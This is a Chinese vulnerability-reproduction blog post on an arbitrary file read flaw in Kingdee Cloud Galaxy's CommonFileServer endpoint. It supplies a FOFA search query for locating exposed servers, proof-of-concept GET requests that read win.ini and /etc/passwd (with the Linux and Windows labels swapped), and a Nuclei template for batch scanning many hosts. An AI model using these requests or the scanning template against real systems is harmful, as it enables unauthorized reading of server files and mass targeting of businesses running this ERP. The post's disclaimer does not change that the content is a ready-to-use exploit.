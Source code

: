# 原创
：  漏洞复现--金蝶云星空 CommonFileServer 任意文件读取

# 漏洞复现--金蝶云星空 CommonFileServer 任意文件读取

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负**

### 一：漏洞描述

金蝶云星空是金蝶集团面向大中型企业的一个核心产品，聚焦多组织，多利润中心的企业。它以“开放、标准、社交”三大特性为数字经济时代的企业提供开放的ERP云平台。该产品CommonFileServer存在任意文件读取漏洞。

### 二：漏洞影响版本

金蝶云星空

### 三：网络空间测绘查询

fofa:<br/> `title="金蝶云星空 管理中心"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/75e191c8727e27f9c39b4cfb1a154247.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c0e0fca13c8c5bddd6c792fe665267af.jpeg"/><br/> POC:<br/> liunx：<br/> `GET /CommonFileServer/c:/windows/win.ini`<br/> Windows：<br/> `GET /CommonFileServer/etc/passwd`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/3deb8786b8c4c5e00647711337829f52.jpeg"/>

### 五：批量检测

```
id: kingdee-CommonFileServer-readfile
info:
  name: kingdee-CommonFileServer-readfile
  author: kingdee-CommonFileServer-readfile
  severity: medium
  tags: app="金蝶云星空-管理中心"

http:
  - raw:
      - |
        GET /CommonFileServer/c:/windows/win.ini HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
        Connection: close
      
      - |
        GET /CommonFileServer/etc/passwd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
        Connection: close

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - 'root:'
          - 'support'
        condition: or
      - type: status
        status:
          - 200

```
